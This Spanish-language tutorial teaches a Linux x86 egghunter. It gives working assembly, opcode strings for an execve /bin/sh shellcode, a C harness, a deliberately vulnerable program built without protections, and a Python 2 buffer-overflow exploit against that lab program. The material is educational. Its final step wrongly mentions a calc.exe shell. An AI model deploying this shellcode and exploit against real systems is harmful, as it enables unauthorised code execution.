








EGGHUNTER
Vamos a hacer un egghunter para lograr entender su funcionamiento.
Para empezar cuando intentas explotar una vulnerabilidad se necesita restrear un buffer donde pueda entrar una shellcode, pero, ¿qué pasaría si los buffers encontrados son muy pequeños como para entrar una shellcode completa?, para eso, encontraron una forma, que sería meter en memoria una shellcode, después ejecutar un código en ese pequeño buffer que busca en memoria esa shellcode para después ejecutarlo.
Recordemos que la memoria virtual son bloques de ciertos rangos contiguos, serían 4096 por pagina que convertido en hex sería 0x1000, tomemos la imagen de abajo para entender esto, usaremos la app, masamunpeX para extraer los datos.
En la imagen anterior podemos observa que hay varias paginas contiguas de 0x1000, en este caso esas paginas contiguas se encuentran en las 5 primeras lineas, las siguientes son lineas de memoria heap y varias otras utilizadas para el correcto funcionamiento, pero algo importante que hay que tomar en cuenta es que cada una tiene sus permisos, veamos las 5 primeras
r-xp -> Esto significa que es la parte ejecutable, donde se encuentra el código de la section .text
r--p -> Esto significa que es la parte de constantes o statics, zonas que ya no son modificables, son solo de lectura, digamos section .rodata
rw-p -> Esto significa que es la parte de variables, zonas donde se puede escribir, variables para modificar, buffers, digamos section. data
Ahora, ¿cual es el objetivo?, meter en una de esos bloques una shellcode, hagamos un ejercicio para lograrlo.
Vamos a ejecutar un egghunter sencillo, después haremos un código vulnerable para ejecutarlo en modo real.
Primer tenemos que tener en cuenta que para encontrar la shellcode, tenemos que hacer algo para detectarlo, vamos a llamarlo, "firma", cuando encontremos esa firma, ejecutara una shell, esto se hacía con los joiners, pero hagamoslo con un exploit.
La firma será "dead", pero en little endian será "daed", pero escribiremos "deaddead", solo será para asegurar que no está confundiendo la busqueda con una posible casualidad de palabra o hex.
Primero colocaré el código y voy explicando a detalle.
global _start
section .text
_start:
xor ecx, ecx
xor ebx, ebx
pagina:
or dx, 0xfff
memoria:
inc edx
lea ebx, [edx + 0x4]
xor eax, eax
mov al, 0x21
int 0x80
cmp al, 0xf2
jz pagina
mov eax, 0x64616563
inc al
cmp eax, dword[edx]
jne memoria
cmp eax, dword[edx + 4]
jne memoria
add edx, 8
jmp edx
Esto es simple, vamos a limpiar un poco la memoria para evitar nulos o basura
xor ecx, ecx
xor ebx, ebx
pagina:
or dx, 0xfff
memoria:
inc edx
Recordemos que vamos a ir buscando pagina por pagina, y debemos hacerlo mediante 4096 bytes o 0x1000, así que convertimos 0xfff + 0x1 = 0x1000
lea ebx, [edx + 0x4]
xor eax, eax
mov al, 0x21
int 0x80
Ahora vamos a apuntar hacia la dirección para leer 8 bytes, "dead" = 4 + "dead" = 4, después limpiamos para evitar bytes extras o nulls y llamamos a una api, se llama "int access(const char *pathname, int mode)", esa api es un call 0x21 y ejecutamos con int 0x80
cmp al, 0xf2
jz pagina
como todo hay un return, eso nos ayuda a verificar si es un bloque con acceso a lectura y para eso tenemos que analizar que no encuentre el error 0xf2 también conocido como -14 EFAULT que se guarda en el registro EAX, si detecta que es igual a cero (0xXXXXXXf2 == 0xXXXXXXXXf2 = 0), analiza el siguiente bloque.
mov eax, 0x64616563
inc al
cmp eax, dword[edx]
jne memoria
cmp eax, dword[edx + 4]
jne memoria
movemos al registro dead, pero sería deac para incremetar 1 y sea dead... digamos, 0x64616563 + 1 = 0x64616564
esto simplemente para evitar bytes de más, si después comparamos con el inicio del registo edx y da igual 0x64616564 = 0x64616564, avanzamos sino analiza todo el bloque, sino lo encuentra salta a a la siguiente página, por esa razón es bueno colocar doble vez la firma.
después analizamos los siguiente 4 bytes y si da de resultado "deaddead", avanzamos, sino repetimos operación.
add edx, 8
jmp edx
Aquí es donde vamos a la parte importante, vamos a ejecutar la shell guardada, cuando ya se encontró la firma, avanzamos los 8 bytes utilizados para la firma y brincamos a esa parte de la dirección donde ya se encuentra el inicio de la shellcode.
Ya que tenemos esto, necesitamos una shell y algo para probar que funciona, vamos a programar una shell sencilla y un código en C para ejecutarlo.
section .text
global _start
_start:
xor eax, eax ; Limpiar eax
push eax ; Terminar la cadena con un NULL (\x00)
push 0x68732f2f ; Push "//sh" (ajustado para el stack)
push 0x6e69622f ; Push "/bin"
mov ebx, esp ; Puntero a "/bin//sh"
xor ecx, ecx ; argv[] = NULL
xor edx, edx ; envp[] = NULL
mov al, 0xb ; syscall execve (0xb = 11)
int 0x80 ; Llamar al kernel
Listo, ahora lo compilamos y sacamos los opcodes tanto de la shell como de la EGG usando objdump.
objdump -d ./shellc|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
Ahora vamos a necesitar el código en C, voy a colocar uno y voy explicando.
#define EGG "\x64\x65\x61\x64"
int main()
{
const char stage[] =
EGG EGG
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
"\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80";
const char code[] =
"\x31\xc9\x31\xdb\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x31\xc0\xb0\x21"
"\xcd\x80\x3c\xf2\x74\xed\xb8\x63\x65\x61\x64\xfe\xc0\x3b\x02\x75\xe7"
"\x3b\x42\x04\x75\xe2\x83\xc2\x08\xff\xe2";
printf("Shellcode cantidad: %d\n", strlen(stage));
printf("EggHunter cantidad: %d\n", strlen(code));
int (*ret)() = (int(*)())code;
ret();
}
#define EGG "\x64\x65\x61\x64"
Esto es normal y creo todos entendemos.
Abajo son los opcodes de la shell que acabamos de hacer usando la firma doble deaddead
const char stage[] =
EGG EGG
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
"\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80";
Abajo son los opcodes de la EGG que acabamos de hacer.
const char code[] =
"\x31\xc9\x31\xdb\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x31\xc0\xb0\x21"
"\xcd\x80\x3c\xf2\x74\xed\xb8\x63\x65\x61\x64\xfe\xc0\x3b\x02\x75\xe7"
"\x3b\x42\x04\x75\xe2\x83\xc2\x08\xff\xe2";
Está es la parte rara donde desreferenciamos el ćodigo para lograr ejecutar los opcodes
printf("Shellcode cantidad: %d\n", strlen(stage));
printf("EggHunter cantidad: %d\n", strlen(code));
int (*ret)() = (int(*)())code;
ret();
Vamos a ejecutarlo y listo.
Esto ya es sencillo de entender, al ejecutar la app, mete stage y code en memoria, después ejecutamos code para encontrar el contenido de stage usando la firma EGG EGG, al encontrarlo, ejecutamos una shell.
Vamos ahora a la parte donde lo ejecutamos con un ejemplo.
El siguiente código será la app vulnerable, hay que recordar compilarlo sin protecciones.
gcc -m32 -z execstack -z norelro -no-pie -fno-stack-protector -o vuln vuln.c
void vulnerable_function() {
char buffer[100]; // Búfer vulnerable
printf("Ingresa tus datos: ");
// Vulnerabilidad: read() permite desbordar el buffer si se envían más de 100 bytes
read(0, buffer, 500);
printf("Recibido: %s\n", buffer);
}
int main() {
printf("Ejecutando programa vulnerable...\n");
vulnerable_function();
printf("Finalizado.\n");
return 0;
}
Vamos a explotarlo, usaremos gdb, primero veamos donde sobreescribe EIP.




Perfecto, vemos que son 112 bytes + 4 bytes, ahora busquemos hacia donde tenemos que brincar para iniciar la shell
Listo, ahora hay que enviar esos datos, hagamoslo desde python2
EGG = "\x64\x65\x61\x64"
stage = (
EGG + EGG +
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
"\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"
)
payload1 = stage
egghunter = (
"\x31\xc9\x31\xdb\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x31\xc0\xb0\x21"
"\xcd\x80\x3c\xf2\x74\xed\xb8\x63\x65\x61\x64\xfe\xc0\x3b\x02\x75\xe7"
"\x3b\x42\x04\x75\xe2\x83\xc2\x08\xff\xe2"
)
eip = struct.pack(I, 0xffffd07c)
buffer_size = 112 - len(stage)
padding = "A" * (buffer_size - len(egghunter))
payload2 = padding + egghunter + eip
sys.stdout.write(payload1)
sys.stdout.write(payload2)
Practicamente es lo mismo que en C, pero al final usamos write para meter los payload en la app vulnerable.
Como tenemos que mandar tanto stage como egghunter al mismo tiempo, tenemos que hacer algunas restas, recordemos que tiene como espacio máximo 112 bytes, a esos tienes que restarle el contenido en bytes de stage y egghunter.
Hagamos primero un SIGTRAP
cambiemos stage por un sigtrap
sigtrap = (EGG + EGG + "\xcc"*23)
Bueno, mandemos los payload a ver que pasa.
Ahora repitamos lo mismo que el método primero, vamos a colocar un nop slide, despues colocamos la shell de calc.exe, rellenamos con junk y dejamos que haga su función nuevamente.
Listo.